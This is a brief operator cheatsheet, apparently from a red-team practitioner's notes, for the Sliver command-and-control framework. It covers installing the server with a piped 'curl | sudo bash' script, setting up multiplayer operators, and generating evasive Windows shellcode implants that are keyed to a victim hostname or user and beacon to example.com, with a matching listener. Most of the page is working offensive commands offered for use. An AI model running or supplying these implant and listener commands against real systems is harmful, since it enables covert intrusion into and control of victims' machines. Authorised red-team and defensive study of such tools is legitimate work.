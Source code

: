 # Sliver

- [https://github.com/BishopFox/sliver](https://github.com/BishopFox/sliver)




## Install

- [https://github.com/BishopFox/sliver/releases/latest](https://github.com/BishopFox/sliver/releases/latest)

Install team server as a daemon on the team server:

```
$ curl https://sliver.sh/install | sudo bash
```

For a client get a `sliver-client` binary from releases or disable the service if installed as a daemon:

```
$ sudo systemctl disable sliver.service --now
```




## Configure Team Server for Multiplayer

- [https://github.com/BishopFox/sliver/wiki/Configuration-Files](https://github.com/BishopFox/sliver/wiki/Configuration-Files)

Change [multiplayer](https://github.com/BishopFox/sliver/wiki/Multiplayer-Mode) listener host (daemon mode) and restart:

```
$ sudo vi /root/.sliver/configs/server.json
$ sudo systemctl restart sliver.service
```

Generate config for a new operator:

```
$ sudo /root/sliver-server operator --name snovvcrash-kali-home --lhost <PRIVATE_IP> --lport 31337 --save snovvcrash_<PRIVATE_IP>.cfg
```




## Cheatsheet

A redirector-aware pair of payload and listener (when redirecting to `PRIVATE_IP:8443`):

```
sliver > generate --os windows --arch amd64 --format shellcode [--evasion] --http example.com:443 [--limit-datetime "Thu, 01 Jan 1970 00:00:00 MSK"] [--limit-domainjoined] [--limit-hostname VICTIM-PC] [--limit-username victim.user] --name victimpc --save /home/snovvcrash/www/shellcode.bin
sliver > https --domain example.com --lhost <PRIVATE_IP> --lport 8443
```
